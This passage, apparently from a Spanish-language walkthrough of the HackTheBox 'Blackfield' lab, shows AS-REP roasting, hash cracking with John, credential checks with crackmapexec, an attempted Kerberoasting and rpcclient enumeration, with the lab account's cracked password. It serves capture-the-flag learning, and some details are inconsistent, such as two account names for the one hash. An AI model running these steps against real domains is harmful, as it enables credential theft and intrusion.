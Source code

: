     cat users_dir | awk '{print $1}' > users
    rm users_dir
    ```

1. Con `GetNPUsers.py` vamos a ver si podemos recuperar un TGT

    ```bash
    GetNPUsers blackfield.local/ -no-pass -usersfile users | grep -v "not found"
    ```

Aqui vemos el TGT del usuario **support**. Esto quiere decir que este usuario tenia el *Don't required pre-auth* seteado. Copiamos todo el hash 
del usuario svc-alfresco en un fichero llamado hash y lo crackeamos con John


### Crackeando el hash con John {-}

```bash
john -wordlists=/usr/share/wordlists/rockyou.txt hash
```

Aqui encontramos su contraseña. Ya podemos effectuar un Kerberoasting attack. Pero primero, como siempre, credenciales encontradas son 
credenciales que checkeamos con crackmapexec

```bash
crackmapexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight'
```

Aprovechamos para ver si nos podemos conectar via winrm.

```bash
crackmapexec winrm 10.10.10.192 -u 'support' -p '#00^BlackKnight'
```

Aqui vemos que el usuario es valido y que tiene permiso de lectura sobre el directorio **SYSVOL** y que lo normal seria de buscar si existe un
fichero `groups.xml`, porque a dentro tienes un `cpassword=HASH` que contiene un hash que se podria crackear con la heramienta **gpp-decrypt** pero 
Tito no adelanta que no es el caso no se aplicaba.

### Kereroasting attack {-}

Los ataques Kereroasting se pueden manejar con la utilidad `GetUserSPNs.py`

```bash
GetUserSPNs.py blackfield.local/support:#00^BlackKnight@10.10.10.192 -request -dc-ip 10.10.10.192
```

Esta utilidad nos retorna un mensaje como que no son las buenas credenciales.

### Enumeracion de usuarios con rpcclient {-}

Ahora que tenemos credenciales validas, intentamos connectarnos al `rpcclient`

```bash
rpcclient -U "support%#00^BlackKnight" 10.10.10.192

> rpcclient $> enumdomusers
```
